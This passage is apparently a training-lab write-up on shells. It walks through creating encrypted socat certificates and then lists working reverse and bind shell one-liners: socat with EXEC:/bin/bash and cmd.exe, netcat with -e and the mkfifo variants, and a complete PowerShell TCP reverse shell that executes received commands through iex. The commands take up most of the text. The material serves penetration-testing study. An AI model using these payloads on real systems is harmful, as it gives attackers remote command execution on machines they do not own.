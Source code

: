 To use encrypted communication, generate a certificate and key file. The inputs asked during generation can be given or left empty. Create `pem` file from the resulting `crt` and `key` file, for use in `socat`.
{% capture code %}{% raw %}openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem{% endraw %}{% endcapture %} {% include code.html code=code %}

An example of `reverse shell` implementation of `socat` is as below.
{% capture code %}{% raw %}socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -
socat OPENSSL:<local-ip>:<local-port>,verify=0 EXEC:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}

An example of `bind shell` implementation of `socat` is as below. `Bind shell` implementation requires the `pem` file to be present at the target.
{% capture code %}{% raw %}socat OPENSSL:<target-ip>:<target-port>,verify=0 -
socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes{% endraw %}{% endcapture %} {% include code.html code=code %}

An example syntax for openssl listener on port 53 with encrypt.pem file is as below.
{% capture code %}{% raw %}socat openssl-listen:53,cert=encrypt.pem,verify=0 FILE;`tty`,raw,echo=0{% endraw %}{% endcapture %} {% include code.html code=code %}

An example syntax for connecting to 10.10.10.5 back to listener is as below.
{% capture code %}{% raw %}socat openssl:10.10.10.5:53,verify=0 exec:"bash -li",pty,stderr,sigint,setsid,sane{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 8 - Common Shell Payloads

Use these links as references.
- [Named pipes](https://www.linuxjournal.com/article/2156){:target="_blank"}
- [PayloadAllTheThings Repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md){:target="_blank"}


Few versions of `netcat`, including ones in kali `netcat-traditional` and `/usr/share/windows-resources/binaries`, there is an option `-e` to specify process to be executed upon connection. This is not included in default versions of netcat as it is seen insecure.

The following example provides shell on target with `bash`. The first command provides `bind shell` and second command provides `reverse shell`
{% capture code %}{% raw %}nc -lvnp <port> -e /bin/bash
nc <local-ip> <port> -e /bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}

An alternate method to create reverse/bind shell listener with `bash` without using `-e` option of `netcat`.
{% capture code %}{% raw %}mkfifo /tmp/f; nc -lvnp <port> < /tmp/f | /bin/sh >/tmp/f 2>&1 ; rm /tmp/f
mkfifo /tmp/f; nc <local-ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&1 ; rm /tmp/f{% endraw %}{% endcapture %} {% include code.html code=code %}


### Powershell listener

The following is a one-liner to be used in `cmd` which invokes a `reverse shell` from target.
{% capture code %}{% raw %}powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"{% endraw %}{% endcapture %} {% include code.html code=code %}
